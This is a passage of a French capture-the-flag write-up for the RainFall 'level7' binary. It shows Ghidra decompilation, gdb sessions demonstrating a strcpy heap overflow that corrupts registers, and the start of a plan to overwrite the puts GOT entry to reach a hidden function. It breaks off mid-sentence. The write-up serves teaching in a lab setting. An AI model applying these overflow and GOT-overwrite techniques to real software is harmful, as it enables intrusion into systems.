 # Level7

```
level7@RainFall:~$ ./level7
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou coucou
~~
level7@RainFall:~$ ./level7 coucou coucou coucou
~~
```
Ce nouveau programme prend en parametre les arguments donnés au programme.

Décompilons avec ghidra.
```
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  time_t tVar1;

  tVar1 = time((time_t *)0x0);
  printf("%s - %d\n",c,tVar1);
  return;
}

undefined4 main(undefined4 param_1,int param_2)
{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;

  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```

Une fonction "m" n'est pas appelée par le programme main. Celui-ci stock les adresses des arguments passés sur le tas avec la fonction strcpy. Nous allons exploiter un overflow sur cette fonction.
Commençons par vérifier a quel endroit de la mémoire nous pouvons écraser l'adresse de retour.

```
(gdb) run <<< $(python -c 'print("A" * 50)') $(python -c 'print("A" * 50)')
Starting program: /home/user/level7/level7 <<< $(python -c 'print("A" * 50)') $(python -c 'print("A" * 50)')

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
Nous n'avons pas écrasé l'adresse de retour avec notre buffer overflow.

En revanche lorsqu'on inspecte les registres :
```
(gdb) info registers
eax            0x41414141	1094795585
ecx            0x0	0
edx            0x41414141	1094795585
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6dc	0xbffff6dc
ebp            0xbffff708	0xbffff708
esi            0x0	0
edi            0x0	0
eip            0xb7eb8aa8	0xb7eb8aa8
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Nous avons écrasés les valeurs de eax et edx.
En inspectant la fonction puts utilisée après:
```
0x080485f7 <+214>:	call   0x8048400 <puts@plt>

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
Après s'etre suffisament documenté, nous savons que le programme stocke l'appel de chaque fonction dans la GOT (Global Offset Table) ce qui permet au prochains appels de cette fonction, de ne pas aller chercher a chaque fois dans la bibliotèque standart C.

Nous allons donc avec 
